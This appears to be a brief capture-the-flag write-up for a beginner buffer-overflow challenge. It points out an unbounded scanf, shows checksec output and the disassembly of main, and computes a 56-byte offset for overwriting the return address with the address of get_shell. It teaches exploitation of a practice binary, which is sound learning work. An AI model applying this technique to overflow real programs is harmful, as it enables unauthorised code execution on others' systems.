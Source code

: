 **Read source code**
- As we can see there is `get_shell()` func so we use buffer overflow to overwrite the return address to the address of `get_shell`
- `scanf("%s", buf);` no limit on input => buffer overflow
- `Checksec` in gdb
```
Arch:     amd64
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```
- `disass main`
```
   0x00000000004006e8 <+0>:     push   rbp
   0x00000000004006e9 <+1>:     mov    rbp,rsp
   0x00000000004006ec <+4>:     sub    rsp,0x30
   0x00000000004006f0 <+8>:     mov    eax,0x0
   0x00000000004006f5 <+13>:    call   0x400667 <init>
   0x00000000004006fa <+18>:    lea    rdi,[rip+0xbb]        # 0x4007bc
   0x0000000000400701 <+25>:    mov    eax,0x0
   0x0000000000400706 <+30>:    call   0x400540 <printf@plt>
   0x000000000040070b <+35>:    lea    rax,[rbp-0x30]
   0x000000000040070f <+39>:    mov    rsi,rax
   0x0000000000400712 <+42>:    lea    rdi,[rip+0xab]        # 0x4007c4
   0x0000000000400719 <+49>:    mov    eax,0x0
   0x000000000040071e <+54>:    call   0x400570 <__isoc99_scanf@plt>
   0x0000000000400723 <+59>:    mov    eax,0x0
   0x0000000000400728 <+64>:    leave
   0x0000000000400729 <+65>:    ret
```
- `buf`: rbp - 0x30
- `ret`: rbp + 0x8
- From rbp - 0x30 to rbp + 0x8 is 56 bytes
- Or we can find this adddress by subtract ret_addr and buf_addr (0x7fffffffde88-0x7fffffffde50 = 56)
=> Send 56 bytes + `get_shell` address (disass get_shell)
